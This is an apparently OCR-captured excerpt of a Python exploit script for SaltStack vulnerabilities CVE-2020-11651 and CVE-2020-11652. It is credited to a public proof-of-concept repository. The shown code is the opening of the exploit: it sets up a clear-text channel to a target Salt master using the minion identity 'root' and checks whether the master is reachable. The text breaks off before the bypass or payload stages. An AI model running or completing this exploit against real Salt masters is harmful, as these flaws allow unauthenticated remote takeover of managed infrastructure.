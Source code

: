 EXP
---

    #!/usr/bin/env python
    #
    # Exploit for CVE-2020-11651 and CVE-2020-11652
    # Written by Jasper Lievisse Adriaanse (https://github.com/jasperla/CVE-2020-11651-poc)
    # This exploit is based on this checker script:
    # https://github.com/rossengeorgiev/salt-security-backports

    from __future__ import absolute_import, print_function, unicode_literals
    import argparse
    import datetime
    import os
    import os.path
    import sys
    import time

    import salt
    import salt.version
    import salt.transport.client
    import salt.exceptions

    def init_minion(master_ip, master_port):
        minion_config = {
            'transport': 'zeromq',
            'pki_dir': '/tmp',
            'id': 'root',
            'log_level': 'debug',
            'master_ip': master_ip,
            'master_port': master_port,
            'auth_timeout': 5,
            'auth_tries': 1,
            'master_uri': 'tcp://{0}:{1}'.format(master_ip, master_port)
        }

        return salt.transport.client.ReqChannel.factory(minion_config, crypt='clear')

    # --- check funcs ----

    def check_connection(master_ip, master_port, channel):
      print("[+] Checking salt-master ({}:{}) status... ".format(master_ip, master_port), end='')
      sys.stdout.flush()

      # connection check
      try:
        channel.send({'cmd':'ping'}, timeout=2)
      except salt.exceptions.SaltReqTimeoutError:
        print("OFFLINE")
        sys.exit(1)
      else:
        print("ONLINE")
